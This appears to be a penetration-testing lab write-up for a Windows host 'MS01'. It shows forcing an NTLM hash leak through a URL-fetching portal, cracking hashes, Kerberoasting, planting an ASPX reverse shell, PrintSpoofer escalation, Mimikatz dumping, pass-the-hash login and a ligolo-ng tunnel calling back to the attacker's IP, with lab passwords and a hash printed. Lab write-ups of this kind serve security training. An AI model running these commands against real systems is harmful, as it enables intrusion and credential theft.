# MS01

## Enumeration

```
Nmap scan report for ms01.oscp (192.168.235.147)
Host is up (0.053s latency).
Not shown: 65436 closed tcp ports (reset), 80 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 e0:3a:63:4a:07:83:4d:0b:6f:4e:8a:4d:79:3d:6e:4c (RSA)
|   256 3f:16:ca:33:25:fd:a2:e6:bb:f6:b0:04:32:21:21:0b (ECDSA)
|_  256 fe:b0:7a:14:bf:77:84:9a:b3:26:59:8d:ff:7e:92:84 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8000/tcp  open  http          Microsoft IIS httpd 10.0
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
| http-methods: 
|_  Potentially risky methods: TRACE
8080/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Bad Request
|_http-server-header: Microsoft-HTTPAPI/2.0
8443/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=MS01.oscp.exam
| Subject Alternative Name: DNS:MS01.oscp.exam
| Not valid before: 2022-11-11T07:04:43
|_Not valid after:  2023-11-10T00:00:00
|_http-title: Bad Request
|_ssl-date: 2024-08-03T23:40:05+00:00; 0s from scanner time.
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=8/3%OT=21%CT=1%CU=43964%PV=Y%DS=4%DC=T%G=Y%TM=66AEB
OS:FD6%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10E%TI=I%TS=U)OPS(O1=M551
OS:NW8NNS%O2=M551NW8NNS%O3=M551NW8%O4=M551NW8NNS%O5=M551NW8NNS%O6=M551NNS)W
OS:IN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=F
OS:FFF%O=M551NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T
OS:3(R=N)T4(R=N)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N
OS:)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=689B%RUD=G)IE(R
OS:=N)

Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-08-03T23:39:54
|_  start_date: N/A

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   51.58 ms 192.168.45.1
2   51.54 ms 192.168.45.254
3   52.66 ms 192.168.251.1
4   52.73 ms ms01.oscp (192.168.235.147)
```

### Anonymous Services

Attempt anonymous FTP, RPC, and SMB access but all fail:

<figure><figcaption><p>Failed anonymous access</p></figcaption></figure>

### Web Server (8000 & 8443)

I check out this web server but it is just a default IIS install. I run `feroxbuster` against it to be sure but find nothing of interest.

### Web Server (8080)

The landing page is a "Partner Portal" which has a URL field. I immediately test it by putting my own HTTP server in (I actually did it twice once with the root of the web server and once with `/tmp/test.txt`):

<figure><figcaption><p>Proving RFI</p></figcaption></figure>

The logs reveal that the host did reach out automatically:

<figure><figcaption><p>Apache logs showing server reached out</p></figcaption></figure>

At this point I assumed it was downloading the page and saving it somewhere so I spent awhile downloading specific files and trying to find them on the web server.

#### Authentication Leak

Eventually it hit me there may be a way to force authentication. First I tried still using HTTP with responder and the -w flag set. That did not work. I then decided to see what types of URLs would be accepted. I tried SMB next with `responder` still running:

```bash
sudo responder -i tun0 -w
```

<figure><figcaption><p>Hash leak caused by portal</p></figcaption></figure>

<figure><figcaption><p>Hash caught by responder</p></figcaption></figure>

I save the hash into a file called `web_svc.ntlm2`.

#### Cracking the Hash

I used john to crack the hash:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt web_svc.ntlm2
```

<figure><figcaption><p>Cracked hash</p></figcaption></figure>

## Foothold

I validate the credential leaked above with CME:

<figure><figcaption><p>Validating the web_svc hash</p></figcaption></figure>

It validates, and even more conveniently it appears to be a domain-connected account! It has SMB access but no WinRM on `MS01`.  I examine the shares briefly before attempting access via SSH which works:

```bash
ssh web_svc@ms01.oscp.exam
```

<figure><figcaption><p>SSH as web_svc</p></figcaption></figure>

User access achieved as `web_svc`.

## Privilege Escalation

I start with PEAS as well as SharpHound which I am able to run via the SMB trick:

```
\\192.168.45.154\tools\x64\peas.exe -a quiet log=\\192.168.45.154\tools\data
```


```
\\192.168.45.154\tools\x64\SharpHound.exe --CollectionMethods All --OutputDirectory \\192.168.45.154\tools\data --OutputPrefix "websvc_ms01"
```


### Kerberoasting

In the output I find the `sql_svc` account is Kerberoastable:

<figure><figcaption><p>Kerberoastable accounts</p></figcaption></figure>

#### Obtaining Hashes

I decide to use `Rubeus.exe` to Kerberoast:

<figure><figcaption><p>Obtaining the hash</p></figcaption></figure>

#### Cracking the Hash

I then move the file back to my machine and crack it with `john`:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.kerberoast
```

<figure><figcaption><p>Cracked hashes</p></figcaption></figure>

I already knew `Diamond1` but I validate the other cracked credential with CME:

<figure><figcaption><p>Validating sql_svc credentials</p></figcaption></figure>

They validate and are added to `creds.txt`:


```
oscp.exam\web_svc:Diamond1   Leaked via Responder from MS01     SMB to MS01
oscp.exam\sql_svc:Dolphin1   Kerberoasted                       SMB to All
```


I can SSH as this user. I spent awhile messing around here but it gave me no avenue to escalation. It turned out to be useful later in the lab though.

### Lateral Movement

I go back to my `web_svc` account and start poking around the machine. I find `C:\inetpub\wwwroot` is writable for my current user:

<figure><figcaption><p>Writing a test file</p></figcaption></figure>

This is likely the location of the web server found at ports 8000 and 8443. If I can write here perhaps I can create a shell. I validate the files written are externally accessible:

<figure><figcaption><p>Externally accessible test file</p></figcaption></figure>

I then start looking for a shell. I elect to go with this [`.aspx` reverse shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx). I make no modifications other than IP & port configuration. I copy it to `C:\inetpub\wwwroot\rs.aspx` and access it with a browser. This causes a shell to reach out:

<figure><figcaption><p>Reverse shell caught</p></figcaption></figure>

#### Enumeration

My new user, , has `SeImpersonatePrivilege` so I simply use `PrintSpoofer` and Netcat to elevate all the way to `SYSTEM`:

<figure><figcaption><p>SYSTEM shell</p></figcaption></figure>

`SYSTEM` access achieved.

## Post-Exploit

### Mimikatz

I run Mimikatz via SMB. I find the machines local Administrator hash which is helpful for future easy access but does not provide me any pivot assistance:


```
\\192.168.45.154\tools\x64\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```


<figure><figcaption><p>Local Administrator hash for machine</p></figcaption></figure>

This allows me to tear down all of my shells and such and simply access the machine via `evil-winrm`:

```bash
evil-winrm -i ms01.oscp.exam -u 'Administrator' -H 3c4495bbd678fac8c9d218be4f2bbc7b
```

### Proxy

I set up a `ligolo-ng` proxy on this machine.

#### Server

First I set up the proxy on my machine with the command:

```bash
lng_proxy -laddr 192.168.45.154:5985
```

* `lng_proxy` is an alias on my machine to run a `sudo /.../ligolo-ng/bin/proxy` command

#### Agent

I copied the `ligolo-ng` agent to the machine as `lng_agent.exe`:

```
copy \\192.168.45.154\tools\x64\ligolo_ng_agent.exe C:\Users\Administrator\lng_agent.exe
```

I then opened PowerShell and used the following one-liner to start the executable in the background:


```powershell
$scriptBlock = { Start-Process C:\Users\Administrator\lng_agent.exe -ArgumentList @('-connect 192.168.45.154:5985', '-ignore-cert') }; Start-Job -ScriptBlock $scriptBlock
```


I then set up the interface and routes via the `proxy` session on my machine.
